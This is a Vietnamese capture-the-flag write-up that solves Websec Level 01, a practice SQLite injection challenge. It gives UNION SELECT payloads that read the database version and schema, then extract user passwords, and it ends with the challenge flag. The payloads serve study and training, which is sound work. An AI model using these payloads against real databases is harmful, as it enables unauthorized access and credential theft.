





# Websec

## Level 01

> Nothing fancy
>
> 🔥 <https://websec.fr/level01/>

Tại level 1 này, chúng ta sẽ bắt đầu với một thử thách SQL Injection đơn giản.

Ứng dụng sẽ lấy `id` chúng ta nhập vào và trả về username cũng như id tương ứng.



Nếu chúng ta nhập vào `1'` sẽ thấy lỗi xuất hiện. Từ đó cho ta biết server đang sử dụng SQLite và giá trị của `id` đang được truyền thẳng vào câu truy vấn.



Vậy chúng ta có thể sử dụng payload như sau để xác định phiên bản của SQLite.

```sql
1 UNION SELECT null, sqlite_version();
```



Với phiên bản là `3.27.2`, chúng ta sẽ sử dụng payload sau để biết được cấu trúc của database.

```sql
1 UNION SELECT null, sql FROM sqlite_master
```



Vậy là câu truy vấn gốc không lấy ra giá trị từ cột `password`, chúng ta sẽ tận dụng SQL Injection để thực hiện điều đó.

Với `id` là `1` thì chúng ta sẽ lấy được password chứa flag.

```sql
1 UNION SELECT null, password FROM users WHERE id=1
```



Ngoài ra, chúng ta cũng có thể sử dụng payload sau để lấy hết tất cả password có trong bảng `users`.

```sql
1 UNION SELECT null, group_concat(password) FROM users
```

### Flag

`WEBSEC{Simple_SQLite_Injection}`
